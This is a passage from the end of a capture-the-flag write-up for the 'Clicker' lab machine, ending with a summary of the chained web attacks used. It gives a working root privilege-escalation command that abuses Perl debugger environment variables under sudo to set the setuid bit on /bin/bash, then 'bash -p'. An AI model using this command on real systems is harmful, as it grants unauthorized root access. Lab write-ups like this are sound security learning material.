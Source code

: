It uses /bin/bash and /bin/xml_pp. Lets see what is /bin/xml_pp

![image](33.png)

It is a perl binary that may be vulnerable to [perl_startup Local Privilege Escalation](https://www.exploit-db.com/exploits/39702). We have to run:

```sh
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
```
```sh
bash -p
```

And rooted!

![image](34.png)

## Conclusion

The clicker machine is a good learning experience, demonstrating techniques like SQL and CRLF Injections, parameter pampering and perl privilege escalation.

Initial access was gained via chaining SQL injections, parameter tampering and CRLF injection. This made possible to gain a foothold on the machine.

The pivotal pivoting was accomplished via the exploitation of a vulnerable perl binary. 

This box exemplifies the importance of thinking broadly across multiple domains like web apps, databases, scripts, authentication, and system administration, to make sure that all layers in the system are properly secured.